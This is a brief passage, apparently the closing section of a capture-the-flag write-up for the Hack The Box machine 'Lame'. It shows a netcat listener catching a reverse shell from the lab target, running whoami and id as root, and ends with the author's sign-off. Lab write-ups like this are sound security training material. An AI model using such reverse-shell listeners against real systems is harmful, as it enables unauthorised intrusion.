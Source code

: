 Getting a call back on our `nc` listener as user root:

```shell
cfx:  ~/Documents/htb/lame
→ nc -lvnp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.3.
Ncat: Connection from 10.10.10.3:58268.
whoami
root
id
uid=0(root) gid=0(root)
exit
```

And we pwned the Box !

Thanks for reading, Feedback is appreciated !
